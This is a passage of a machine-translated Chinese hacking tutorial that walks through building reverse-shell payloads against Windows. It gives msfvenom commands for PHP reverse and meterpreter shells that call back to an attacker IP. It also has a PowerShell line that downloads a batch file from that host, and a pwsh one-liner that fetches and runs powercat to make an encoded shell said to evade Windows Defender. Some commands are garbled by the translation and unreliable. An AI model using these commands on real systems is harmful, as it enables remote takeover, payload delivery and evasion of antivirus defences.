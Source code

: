 为 PHP 创建反向外壳代码

```
LHOST=192.168.62.161
LPORT=53
payload="reverse_php meterpreter_reverse_tcp"
for payload in $(echo $payload); do msfvenom -p php/$payload LHOST=$LHOST LPORT=$LPORT -f raw > /tmp/${payload}.php; done
```

![](img/cd5b7613d24647a48f823f6f5e30b466.png)

**Powercat 编码的反向 shell 有效负载** 我们最终的有效负载文件(ruby.exe)将在 TCP 端口 25 上设置一个“隐形”Powercat 反向 shell。这是通过以下代码行完成的:

I = System(" powershell . exe-c(New-Object System。Net.Webclient)。download file('[http://192 . 168 . 62 . 161:80/backup . bat '，' C:\ \ Windows \ \ Tasks \ \ backup . bat '](http://192.168.62.161:80/backup.bat','C:\\Windows\\Tasks\\backup.bat')))"；

你可以在我的文章中读到更多关于“隐形”Powercat 反向外壳的信息:

[](https://systemweakness.com/evade-windows-defender-reverse-shell-detection-6fa9f5eee1d1) [## 使用 Powercat 规避 Windows Defender 反向外壳检测

### 摘要

systemweakness.com](https://systemweakness.com/evade-windows-defender-reverse-shell-detection-6fa9f5eee1d1) 

11.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

下载 powercat.ps1，执行 powercat 并创建一个编码的有效负载文件(/tmp/shell-25.txt)。

```
LHOST=192.168.62.161
LPORT=25
rshell=shell-25.txt
pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > /tmp/$rshell
```

![](img/813d1ff8564edb7a1e84f3699504e2ca.png)
